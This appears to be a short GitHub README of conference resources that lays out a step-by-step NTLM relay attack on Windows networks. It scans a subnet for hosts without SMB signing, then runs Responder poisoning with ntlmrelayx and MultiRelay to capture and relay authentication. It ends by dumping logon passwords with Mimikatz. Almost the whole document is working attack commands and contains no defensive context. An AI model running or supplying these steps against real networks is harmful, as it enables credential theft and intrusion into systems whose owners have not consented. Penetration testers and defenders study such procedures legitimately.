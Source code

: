 # DojoConf-Recursos

comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation to detect machine with SMB signing:disabled.
```
python RunFinger.py -i 192.168.0.0/24
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt
 ```   
 ```
 python MultiRelay.py -t 192.168.0.4 -u ALL -d
 ntlmrelayx.py -tf targets.txt --smb2support
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
Responder.py** -I eth0 -rv
Responder.py** -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```



